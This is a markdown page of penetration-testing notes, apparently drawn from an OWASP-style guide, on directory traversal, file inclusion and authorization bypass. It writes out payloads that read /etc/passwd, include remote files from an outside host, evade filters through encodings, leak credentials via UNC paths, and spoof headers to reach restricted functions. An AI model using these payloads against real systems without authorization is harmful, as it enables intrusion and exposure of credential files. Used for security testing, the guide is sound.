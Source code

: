 # Authorization Testing
---
## Navigation
- **[[#Directory Traversal File Include]]**
- **[[#Bypassing Authorization Schema]]**

---
# Directory Traversal File Include
### Input Vectors Enumeration
checks to be performed:
-   Are there request parameters which could be used for file-related operations?
-   Are there unusual file extensions?
-   Are there interesting variable names?
    -   `http://example.com/getUserProfile.jsp?item=ikki.html`
    -   `http://example.com/index.php?file=content`
    -   `http://example.com/main.cgi?home=index.html`
-   Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
    -   `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    -   `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`
### Testing Techniques
```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

For the cookies example:

```
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

It’s also possible to include files and scripts located on external website:

```
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```

If protocols are accepted as arguments, as in the above example, it’s also possible to probe the local filesystem this way:

```
http://example.com/index.php?file=file:///etc/passwd
```

If protocols are accepted as arguments, as in the above examples, it’s also possible to probe the local services and nearby services:

```
http://example.com/index.php?file=http://localhost:8080
http://example.com/index.php?file=http://192.168.0.2:9080
```

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters if it's present in the same directory.

```
http://example.com/main.cgi?home=main.cgi
```
> **Tip:** It’s a common mistake by developers to not expect every form of encoding and therefore only do validation for basic encoded content. If at first the test string isn’t successful, try another encoding scheme.

Each operating system uses different characters as path separator:

-   Unix-like OS:
    -   root directory: `/`
    -   directory separator: `/`
-   Windows OS:
    -   root directory: `<drive letter>:`
    -   directory separator: `\` or `/`
-   Classic macOS:
    -   root directory: `<drive letter>:`
    -   directory separator: `:`

We should take in to account the following character encoding mechanisms:

-   URL encoding and double URL encoding
    -   `%2e%2e%2f` represents `../`
    -   `%2e%2e/` represents `../`
    -   `..%2f` represents `../`
    -   `%2e%2e%5c` represents `..\`
    -   `%2e%2e\` represents `..\`
    -   `..%5c` represents `..\`
    -   `%252e%252e%255c` represents `..\`
    -   `..%255c` represents `..\` and so on.
-   Unicode/UTF-8 Encoding (it only works in systems that are able to accept overlong UTF-8 sequences)
    -   `..%c0%af` represents `../`
    -   `..%c1%9c` represents `..\`
 
 There are other OS and application framework specific considerations as well. For instance, Windows is flexible in its parsing of file paths.

-   Windows shell: Appending any of the following to paths used in a shell command results in no difference in function:
    -   Angle brackets `<` and `>` at the end of the path
    -   Double quotes (closed properly) at the end of the path
    -   Extraneous current directory markers such as `./` or `.\\`
    -   Extraneous parent directory markers with arbitrary items that may or may not exist:
        -   `file.txt`
        -   `file.txt...`
        -   `file.txt<spaces>`
        -   `file.txt""""`
        -   `file.txt<<<>>><`
        -   `./././file.txt`
        -   `nonexistant/../file.txt`

**Windows API**: The following items are discarded when used in any shell command or API call where a string is taken as a filename:
    -   `periods`
    -   `spaces`
-   **Windows UNC Filepaths**: Used to reference files on SMB shares. Sometimes, an application can be made to refer to files on a remote UNC filepath. If so, the Windows SMB server may send stored credentials to the attacker, which can be captured and cracked. These may also be used with a self-referential IP address or domain name to evade filters, or used to access files on SMB shares inaccessible to the attacker, but accessible from the web server.
    -   `\\server_or_ip\path\to\file.abc`
    -   `\\?\server_or_ip\path\to\file.abc`
-   **Windows NT Device Namespace**: Used to refer to the Windows device namespace. Certain references will allow access to file systems using a different path.
    -   May be equivalent to a drive letter such as `c:\`, or even a drive volume without an assigned letter: `\\.\GLOBALROOT\Device\HarddiskVolume1\`
    -   Refers to the first disc drive on the machine: `\\.\CdRom0\`

# Bypassing Authorization Schema
### Horizontal Bypassing Authorization Schema
-   Is it possible to access resources that should be accessible to a user that holds a different identity with the same role or privilege?
-   Is it possible to operate functions on resources that should be accessible to a user that holds a different identity?

**For each role:**
1.  Register or generate two users with identical privileges.
2.  Establish and keep two different sessions active (one for each user).
3.  For every request, change the relevant parameters and the session identifier from token one to token two and diagnose the responses for each token.
4.  An application will be considered vulnerable if the responses are the same, contain same private data or indicate successful operation on other users’ resource or data.

### Vertical Bypassing Authorization Schema

**For each role:**

1.  Register a user.
2.  Establish and maintain two different sessions based on the two different roles.
3.  For every request, change the session identifier from the original to another role’s session identifier and evaluate the responses for each.
4.  An application will be considered vulnerable if the weaker privileged session contains the same data, or indicate successful operations on higher privileged functions.

### Testing for Special Request Header Handling
Some applications support non-standard headers such as `X-Original-URL` or `X-Rewrite-URL` in order to allow overriding the target URL in requests with the one specified in the header value.
### Other Headers to Consider
-   Headers:
    -   `X-Forwarded-For`
    -   `X-Forward-For`
    -   `X-Remote-IP`
    -   `X-Originating-IP`
    -   `X-Remote-Addr`
    -   `X-Client-IP`
-   Values
    -   `127.0.0.1` (or anything in the `127.0.0.0/8` or `::1/128` address spaces)
    -   `localhost`
    -   Any [RFC1918](https://tools.ietf.org/html/rfc1918) address:
        -   `10.0.0.0/8`
        -   `172.16.0.0/12`
        -   `192.168.0.0/16`
    -   Link local addresses: `169.254.0.0/16`

>Note: Including a port element along with the address or hostname may also help bypass edge protections such as web application firewalls, etc. For example: `127.0.0.4:80`, `127.0.0.4:443`, `127.0.0.4:43982`


